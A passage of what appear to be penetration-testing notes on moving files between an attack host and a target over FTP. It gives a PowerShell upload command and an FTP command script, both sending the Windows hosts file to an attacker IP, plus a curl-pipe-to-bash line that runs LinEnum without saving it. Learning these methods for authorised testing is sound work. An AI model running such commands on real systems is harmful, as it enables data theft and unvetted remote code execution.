 ```
more <file.txt>
```

> FTP Uploads

Uploading files using FTP is very similar to downloading files. We can use PowerShell or the FTP client to complete the operation. Before we start our FTP Server using the Python module `pyftpdlib`, we need to specify the option `--write` to allow clients to upload files to our attack host.

```
sudo python3 -m pyftpdlib --port 21 --write
```

Now let's use the PowerShell upload function to upload a file to our FTP Server.

> PowerShell Upload File:

```powershell-session
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

> Example - Create a Command File for the FTP Client to Upload a File:

```
echo open 192.168.49.128 > ftpcommand.txt

echo USER anonymous >> ftpcommand.txt

echo binary >> ftpcommand.txt

echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt

echo bye >> ftpcommand.txt

ftp -v -n -s:ftpcommand.txt

open 192.168.49.128

USER anonymous

PUT c:\windows\system32\drivers\etc\hosts

bye
```



## Execute Files without downloading

> Example downloading LinEnum with bash:

```shell-session
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

> Example download script with Python:
